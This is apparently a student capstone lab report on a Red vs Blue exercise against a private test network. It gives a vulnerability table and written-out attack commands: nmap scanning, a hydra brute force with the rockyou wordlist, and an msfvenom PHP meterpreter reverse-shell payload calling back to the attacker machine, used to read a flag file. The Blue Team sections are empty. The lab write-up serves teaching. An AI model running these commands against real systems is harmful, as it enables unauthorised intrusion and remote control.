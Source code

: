 ## Capstone Red vs Blue CySec Report

Author: Min Young Lee

**Table of Contents**

#Preface
This is a cybersecurity project report on a network vulnerability.  There are two parts of this project: the attacker (Red Team) and the victim (Blue Team).  The Red Team is tasked with identifying vulnerabilities in the network and exploiting the found vulnerabilities.  The Blue Team is tasked with detecting malicious activities on the network and mitigating the identified malicious attacks.  
#Network Topology

![](img url)

| Hostname| IP Address | Role on Network |
| ------------------ | ------------------ |------------------ |
|ML-RefVM-684427| 192.168.1.1 | NATSwitch|
|Capstone |192.168.1.105 |Web server|
|Kali |192.168.1.90 |Pen. test system|
|ELK |192.168.1.100| SIEM system|

#Red Team
##Recon
##Vulnerability Assessment 

|Vulnerability| Description| Impact|
| ------------------ | -------- |------------------ |
|Apache Directory Listing CVE-2007-0450|Allows browser traversal to realdirectories on Capstone Apacheweb server|Allowed attackers to reveal the ip address and the secret folder|
|No Failed Login Lockout| No account lockdown when excessive login failures occurred within a short period of time| Brute force attack was possible to gain access to Ryan’s login information |
|Weak Password| The password was available on a common password library such as “rockyou”| The brute force attack was able to identify the login password.|
|Reverse Shell Backdoor CVE-2019-13386| Allows to send a reverse shell payload on a web server while the firewalls do not detect the payload |Attackers gained the remote backdoor access to the Capstone web server|
|Weak Hashed Password |Unsalted hashed information which can be decrypted using various web applications to decode |The hashed information, the CEO login information, was decoded.  |
|Simplistic Username| Usage of the common names or real names as a login ID |By having an access to the directory, the attack was able to identify the login IDs |
|Root Accessibility| The anonymous commands has an access to the resources |The attacker was able to connect to devices|
|Unencrypted Credentials |The stored values of usernames and passwords, both passwords and the hashed passwords, were in a plain text |The attacker was able to gain access to the login IDs and passwords|

##Exploitation(s) 
###Apache Directory Listing CVE-2007-0450
	netdiscover -r 192.168.1.255/16

	nmap -sV 192.168.1.1-105

	nmap -sS -A 192.168.1.105

	wget 192.168.1.105 /meet_our_team/ashton.txt

###No Failed Login Lockout
	hydra -l ashton -P /usr/share/wordlists/rockyou .txt -s 80 -f -vV 192.168.1.105 http-get/company_folders/secret_folder/ -t 60

###Reverse Shell Backdoor CVE-2019-13386
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php

Login to webdav as Ryan to move the payload
Listen to host: 192.168.1.90 & port:4444

	meterpreter> shell
	>find / -name flag.txt 2>/dev/null
	>cat flag.txt

#Blue Team
##Vulnerability Analysis 
##Hardening
#Assessment Summary 

